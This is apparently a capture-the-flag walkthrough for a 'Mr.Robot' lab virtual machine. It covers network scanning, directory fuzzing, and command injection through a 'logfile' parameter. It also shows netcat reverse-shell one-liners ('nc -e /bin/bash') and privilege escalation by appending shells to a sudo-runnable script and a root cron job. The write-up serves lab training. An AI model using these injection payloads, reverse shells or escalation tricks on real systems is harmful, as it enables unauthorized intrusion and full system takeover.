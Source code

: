 Walkthrough for Mr.Robot virtual machine

Starting the attack I had to identify the virtual machine IP addr. I did this by running rubicon which is a script I programmed. The nmap scrip that it runs is "nmap -sn 192.168.0.0/24". This scans the range of IP's in that range to list all IP's on my network. To recreate this on your own network run ifconfig and if it returns 192.168.1.XXX then use 192.168.1.0/24 as your range or adapt for your IP addr. As you can see the NMAP scan returned the information below and I determined that
the target IP addr is 192.168.56.105

Script: 
```
nmap -sN 192.168.56.0/24
```
![Screenshot From 2025-06-24 11-29-52](https://github.com/user-attachments/assets/617fb1d2-75cf-4fb8-9def-e43aa674d35d)


After identifying the IP addr, I noticed port 8080 is open on the device. I then opened my browser and went to the address.

I was greeted with a login prompt. I left it the defualt username and hit enter,

Upon hitting enter I was greeted with a chat room. i then typed test and hit enter. The chat appeared in the chat window.

Address
```
192.168.56.105:8080
```

![Screenshot From 2025-06-24 11-35-31](https://github.com/user-attachments/assets/5deadb84-383b-4721-afec-a667b5fd6135)

![Screenshot From 2025-06-24 11-35-44](https://github.com/user-attachments/assets/b4734e75-1311-4069-8af5-8c109cf48258)


I inspected the page source and found nothing suspicious so I decided to ffuf scan the web address.

Script:
```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .html,.php,.txt -u http://192.168.56.105:8080/FUZZ -of html -o dir.html -fs 2899
```

The scan revealed three pages to follow:
- administration.php
- chat.txt
- process.php

![Screenshot From 2025-06-24 11-38-25](https://github.com/user-attachments/assets/70cf8c22-d818-4a07-a6d5-3a2264a89148)

I entered chat.txt and noticed it was just a log of all the chats as a plain text file

![Screenshot From 2025-06-24 11-39-24](https://github.com/user-attachments/assets/ec94f1a8-6132-48a9-ba60-c61a3cf17012)

I then decided to go to administration.php and was greeted with a message stating access is denied and the actions had been logged.

![Screenshot From 2025-06-24 11-40-20](https://github.com/user-attachments/assets/a1a82a10-e0f9-46c7-b7a3-dc6d0a8308bd)

The "view :" seemed suspicious to me as it seemed like it was expecting something, maybe a file or something similar to state what the user is/isn't allowed to view. going back to the chat screen showed something was supposed to be posted, but it was empty.

![Screenshot From 2025-06-24 11-44-10](https://github.com/user-attachments/assets/f9a498b9-0348-4e0c-8428-4ea8ca44de23)

This seemed weird so I decided to run another ffuf scan on the administration.php address and it showed a file named "logfile".

Script:
```
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 'http://192.168.56.105:8080/administration.php?FUZZ=anything' -of html -o admin-get.html -fs 65
```

![Screenshot From 2025-06-24 11-42-14](https://github.com/user-attachments/assets/27a7a67b-f37f-47e0-8feb-25538e627ecb)

I decided to test for Local File Inclusion (LFI) by running ?logfile=chat.txt. that revealed a plain text view of the chat.txt file. 

![Screenshot From 2025-06-24 11-45-08](https://github.com/user-attachments/assets/482705ac-864b-48f4-8604-56fcc1a00ff2)

This allows us to use this chat file to display information about the system via a ";". I decided to try and view which user we were under on the website.

Address/Script:
```
?logfile=chat.txt;whoami
```

This revealed the user we are under within the webpage and confirms we can execute commands
![Screenshot From 2025-06-24 11-50-51](https://github.com/user-attachments/assets/271ff49b-6552-48fd-bd7a-f7fb802f8d50)

![Screenshot From 2025-06-24 11-51-43](https://github.com/user-attachments/assets/8806f46d-7f6f-4f9d-936c-becafe3500e1)

I decided to try and get a reverse shell on the machine using netcat (nc). Before we can execute nc we have to rememeber that we are "the machine", not technically a user on the device, so running all non-native commands, we have to find then out first. If we are going to use nc, we have to find out which nc to use.

Address/Script:
```
?logfile=chat.txt;which nc
```

![Screenshot From 2025-06-24 11-54-27](https://github.com/user-attachments/assets/368d4afd-07c1-4dfd-822b-5a390d824b2d)

This reveled nc was located at /usr/bin/nc meaning we can run it. I opened a listener on my local machine and invoked a remote connection on the website. and IT WORKED!!

Local Machine Script:
```
nc -lvnp 9000
```

Address/Script:
```
?logfile=;nc -e /bin/bash 192.168.56.1 9000
```

![Screenshot From 2025-06-24 12-06-00](https://github.com/user-attachments/assets/a88773cd-b346-4ef3-91b3-74b667fd5ccc)

![Screenshot From 2025-06-24 12-06-13](https://github.com/user-attachments/assets/276438d8-a555-49e3-9bd0-9e0b0f14ff64)

Now we have to verify who we are by running whoami in the remote shell.

Script:
```
whoami
```

That showed that we are infact www-data. Lets run a "sudo -l" to see what kind of sudo access we have.

Script:
```
sudo -l
```

This revealed that we can run a single file as another user named julia as sudo.

![Screenshot From 2025-06-24 12-08-11](https://github.com/user-attachments/assets/465e74c4-bce1-4895-b660-b8e16a7c0dc2)

Lets see what kind of access is on that file, who can do what and who owns it. I did this by running "ls -alps"

Script:
```
ls -alps
```

This revealed that other users other than root can write to it, so I added a binary bash at the end of the file which will execute when we run it. This will give us access to a shell under the user we execute the start.sh file as.

![Screenshot From 2025-06-24 12-11-00](https://github.com/user-attachments/assets/92efb56d-6b3f-4a93-b48f-0b8fde324492)

![Screenshot From 2025-06-24 12-11-51](https://github.com/user-attachments/assets/91a3272f-fbcd-4fe5-8aa5-61cf0b74a5c6)

I then executed the file as julia.

Script:
```
sudo -u julia bash /var/www/html/start.sh
```

And we were now able to execute commands as julia.

![Screenshot From 2025-06-24 12-12-49](https://github.com/user-attachments/assets/df85e883-e5b6-41b3-bda9-f99e13e3c510)

Now we have broke out of the www-data account we need to grab the user flag. lets get to the users home directory via a simple "cd" and see if the flag is there.

Script:
```
cd
ls -alps
```

![Screenshot From 2025-06-24 12-15-13](https://github.com/user-attachments/assets/1983c098-d21e-42d6-a04b-2b81e31d9b27)

We see a file called user.txt, catting it out gave us our first flag.

Script:
```
cat user.txt
```

![Screenshot From 2025-06-24 12-15-59](https://github.com/user-attachments/assets/b16b9139-080f-42e8-9168-02825df8f932)

Now we need to work on the root flag. Understanding the linux system and having done many machines, I always check the cron jobs first to see if there is any privlage escalation possible. This is always a good place to start as all cronjobs run as root on normal system. Lets dig into it.

Script:
```
cat /etc/crontab
```

![Screenshot From 2025-06-24 12-18-49](https://github.com/user-attachments/assets/8ed0ee43-c99b-42d3-9e49-fc9d619ec440)

this revealed a custom crontab added that ran a file called check.sh. Lets see the contents of that file. That revealed it was just running a loop every so often to ensure a service was running.

Script:
```
cat /var/cron/check.sh
```

![Screenshot From 2025-06-24 12-20-24](https://github.com/user-attachments/assets/9cce93a0-4f91-436d-b59d-036d44623044)

I decided to try and get it to invoke a reverse shell. I opened a listener on another terminal tab and added a reverse shell one-liner to the end of the file.

New Terminal Tab Script:
```
nc -lvnp 9001
```

Current Reverse Shell Script:
```
echo 'nc -e /bin/bash 192.168.56.1 9001' >> /var/cron/check.sh
```

![Screenshot From 2025-06-24 12-24-19](https://github.com/user-attachments/assets/c3c7de06-1905-4695-8935-ed266f4b177e)

After waiting a bit we received the connection. running a whoami verified we are root. Lets get this last flag.

![Screenshot From 2025-06-24 12-25-23](https://github.com/user-attachments/assets/e04a2e42-d9db-421c-a6aa-3ed11ae89ef1)

Obtaining the last flag was easy by running a cd and catting out the root.txt file

Script:
```
cd
ls -al
cat root.txt
```

![Screenshot From 2025-06-24 12-26-26](https://github.com/user-attachments/assets/e4628262-92ee-4cd3-8c6c-07369792185a)

With that, we've completed the machine. Thank you for reading. If you need clarification on anything, please feel free to ask OR go to my YouTube channel to watch the live walk-through.
